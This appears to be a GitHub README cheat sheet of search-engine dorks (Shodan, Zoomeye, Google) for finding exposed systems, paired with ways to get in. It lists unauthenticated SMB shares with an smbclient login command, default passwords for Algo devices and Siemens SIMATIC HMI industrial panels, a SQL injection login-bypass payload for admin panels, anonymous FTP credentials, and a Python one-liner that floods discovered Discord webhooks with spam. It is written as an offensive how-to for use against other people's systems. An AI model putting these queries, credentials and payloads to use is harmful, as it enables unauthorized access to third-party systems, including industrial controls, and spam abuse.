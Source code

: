 # SMB server misconfiguration

### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`

### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`

### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)

# Algo hardcoded password

### Login
Default password: _`algo`_

### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)

# SIMATIC HMI_Panel default credentials

### Login
Default username: _`Administrator`_

Default password: _`100`_

### Google dork
[`intitle:”Miniweb Start Page”`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)

# Admin-login panels vulnerable to SQLi
Payload: _`1'or'1'=1'`_

### Google dork
[`intitle:"Admin login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Admin+login%22+inurl%3A%2Fadmin%2Findex.php)

# Find exposed discord webhooks

Simplest way to spam into a webhook in python:
```py
while True: __import__("requests").post("<webhook>", data={"content":"@here hey"})
```

### Zoomeye dork
[`"https://discord.com/api/webhooks/"`](https://www.zoomeye.org/searchResult?q=%22https%5C%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F%22)

#### But... Can i automate this?
The answer is obviously yes, i made [this](https://github.com/komodoooo/discord-stuff/blob/main/src/zw.py) script.

# FTP servers with anonymous login allowed 
Username: _`anonymous`_

Password: _`guest`_

### Shodan query
[`port:21 "Login successful" "FTP server ready"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22+%22FTP+server+ready%22)

[`port:21 "Login successful"`](https://www.shodan.io/search?query=port%3A21+%22Login+successful%22)
## Find exposed ftp servers on google
### Google dork
[`intitle:"index of" inurl:ftp`](https://www.google.com/search?q=intitle%3A%22index+of%22+inurl%3Aftp)
